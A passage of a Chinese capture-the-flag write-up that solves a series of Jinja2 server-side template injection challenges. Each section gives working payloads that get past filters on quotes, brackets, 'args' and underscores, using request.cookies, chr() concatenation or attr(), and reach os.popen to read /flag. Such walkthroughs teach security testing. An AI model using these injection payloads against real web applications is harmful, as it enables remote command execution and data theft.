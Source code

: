 上面的又用不了了，发现是过滤了单引号和双引号

可以用request绕过：

```jinja2
a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}
```

也可以用字符串拼接，不过太麻烦了，可以写脚本跑一下出payload，但我太懒了

```jinja2
?name={{config.__str__()[num]}}
然后拼接即可,拼接获得os：?name={{url_for.__globals__['os']}}
{{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
```

也可以先把chr给找出来，然后用chr进行字符串拼接，比上面那种方便些：

```
{% set chr = url_for.__globals__.__builtins__.chr %}
{% print url_for.__globals__[chr(111)%2bchr(115)] %}
```

## 364_过滤args

过滤了args，本来想要post：
`?name={{url_for.__globals__[request.form.a][request.form.b](request.form.c).read()}}`
然后post传`a=os&b=popen&c=cat /flag`，但是爆405了，看来post方法不被允许

改用cookie传值（其实values也可以）：

```jinja2
/?name={{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}

cookie:a=os;b=popen;c=cat /flag
```

![](https://i.loli.net/2021/08/11/63gSautyOmLHUiR.png)

## 365_过滤中括号

过滤了引号、中括号和args，cookiers仍然可用
中括号可以换成`.`，因为jinja2对它俩的解析方式其实一样
还可以用`__getitem__`、或者利用`index()`配合遍历判断，都可以

```jinja2
/?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}

c=cat /flag
```

## 366_过滤下划线

在之前的基础上过滤了下划线，绕过用request或者attr都可以

```jinja2
/?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.c).read()}}

a=__globals__;c=cat /flag
```
